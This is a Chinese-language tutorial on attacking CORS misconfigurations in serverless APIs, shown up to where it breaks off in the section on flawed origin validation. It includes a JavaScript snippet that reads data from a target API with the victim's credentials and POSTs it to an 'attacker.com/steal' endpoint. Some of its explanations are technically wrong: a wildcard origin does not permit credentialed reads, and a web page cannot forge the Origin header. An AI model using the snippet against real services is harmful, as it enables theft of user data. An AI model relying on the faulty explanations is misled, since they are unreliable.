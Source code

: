 # 无服务器CORS滥用的攻击技术

## 1. 技术原理解析

### 1.1 CORS（跨源资源共享）概述
CORS（Cross-Origin Resource Sharing）是一种浏览器机制，允许网页从不同的源（协议、域名、端口）请求资源。CORS通过在HTTP头中添加特定的字段来实现跨域请求的授权。

### 1.2 无服务器架构中的CORS
在无服务器架构中，CORS通常由API Gateway或云函数（如AWS Lambda、Google Cloud Functions）处理。开发者需要在配置中明确允许哪些源可以访问资源。

### 1.3 CORS滥用的基本原理
CORS滥用通常发生在CORS配置不当的情况下，攻击者可以利用这些配置漏洞进行跨域请求，窃取敏感数据或执行恶意操作。常见的CORS滥用场景包括：
- **过于宽松的CORS配置**：允许所有源（`*`）访问资源。
- **动态源验证漏洞**：未正确验证请求源，导致任意源可以访问资源。
- **凭证泄露**：在跨域请求中携带了敏感凭证（如Cookies）。

## 2. 常见攻击手法和利用方式

### 2.1 过于宽松的CORS配置
当CORS配置允许所有源访问资源时，攻击者可以轻易地从任意网站发起跨域请求，获取敏感数据。

**攻击步骤：**
1. 攻击者构造一个恶意网页，包含向目标API发起跨域请求的代码。
2. 受害者访问该恶意网页，浏览器自动发起跨域请求。
3. 目标API返回敏感数据，攻击者通过JavaScript获取并发送到自己的服务器。

**代码示例：**
```javascript
fetch('https://target-api.com/sensitive-data', {
  method: 'GET',
  credentials: 'include'
})
.then(response => response.json())
.then(data => {
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
```

### 2.2 动态源验证漏洞
当CORS配置中动态验证请求源时，如果验证逻辑存在漏洞，攻击者可以伪造源信息，绕过验证。

**攻击步骤：**
1. 攻击者构造一个恶意网页，包含伪造的`Origin`头。
2. 受害者访问该恶意网页，浏览器发起跨域请求，携带伪造的`Origin`头。
3. 目标API误认为请求来自合法源，返回敏感数据。

